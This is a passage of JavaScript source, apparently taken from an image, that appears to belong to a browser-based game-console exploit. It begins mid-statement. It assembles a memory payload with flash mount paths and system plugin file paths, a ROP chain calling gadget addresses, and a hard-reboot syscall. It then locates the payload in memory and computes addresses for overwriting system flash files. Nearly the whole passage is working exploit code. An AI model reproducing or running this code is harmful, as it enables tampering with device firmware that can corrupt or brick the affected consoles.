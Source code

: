 		xtra_data=flash_partition.convert()
		+filesystem.convert()
		+mount_path.convert()
		+getPath(explore_pluginrco_usb).convert()
		+fill_by_4bytes(0xC,dbyte00)
		+explore_pluginrco_blind.convert()
		+fill_by_4bytes(0xC,dbyte00)
		+getPath(explore_pluginrco2_usb).convert()
		+fill_by_4bytes(0xC,dbyte00)
		+explore_pluginrco2_blind.convert()
		+fill_by_4bytes(0xC,dbyte00)
		+getPath(explore_plugin_usb).convert()
		+fill_by_4bytes(0xC,dbyte00)
		+explore_plugin_blind.convert()
		+fill_by_4bytes(0xC,dbyte00)
		+getPath(category_game_usb).convert()
		+fill_by_4bytes(0xC,dbyte00)
		+category_game_blind.convert()
		+fill_by_4bytes(0xC,dbyte00)
		+getPath(videoplayer_plugin_usb).convert()
		+fill_by_4bytes(0xC,dbyte00)
		+videoplayer_plugin_blind.convert()
		+fill_by_4bytes(0xC,dbyte00)
		+fill_by_16bytes(0x90,dbyte00)
		+hexdw2bin(sp_exit)+fill_by_8bytes(0x8,dbyte41)+callsub(gadget12_addr,2,0,0,0,0,0,0,0,0,0x80)+syscall(sc_sm_shutdown,hard_reboot,0,0,0,0,0,0,0)
		+unescape("\uFD7E");
		while(xtra_data_addr===0)
		{
			if(search_max_threshold<search_size){load_check();return;}
			xtra_data=xtra_data.replaceAt(0,hexh2bin(0x7EFD));
			xtra_data_addr=findJsVariableOffset("xtra_data",xtra_data,search_base,search_size);
			search_max_threshold-=search_size;
		}
		
		flash_partition_addr=xtra_data_addr;
		fs_addr=flash_partition_addr+flash_partition.convertedSize()-0x4;
		mount_path_addr=fs_addr+filesystem.convertedSize();
		
		explore_pluginrco_usb_addr=mount_path_addr+mount_path.convertedSize();
		explore_pluginrco_usbfd_addr=explore_pluginrco_usb_addr+getPath(explore_pluginrco_usb).convertedSize();
		explore_pluginrco_usb_readlen_addr=explore_pluginrco_usbfd_addr+word_size;
		
		explore_pluginrco_blind_addr=explore_pluginrco_usb_readlen_addr+dword_size;
		explore_pluginrco_blindfd_addr=explore_pluginrco_blind_addr+explore_pluginrco_blind.convertedSize();
		explore_pluginrco_blind_writelen_addr=explore_pluginrco_blindfd_addr+word_size;
		store_idx_arr1[0]=(explore_pluginrco_blind_writelen_addr-flash_partition_addr+0x8)/2;
		
		explore_pluginrco2_usb_addr=explore_pluginrco_blind_writelen_addr+dword_size;
		explore_pluginrco2_usbfd_addr=explore_pluginrco2_usb_addr+getPath(explore_pluginrco2_usb).convertedSize();
		explore_pluginrco2_usb_readlen_addr=explore_pluginrco2_usbfd_addr+word_size;
		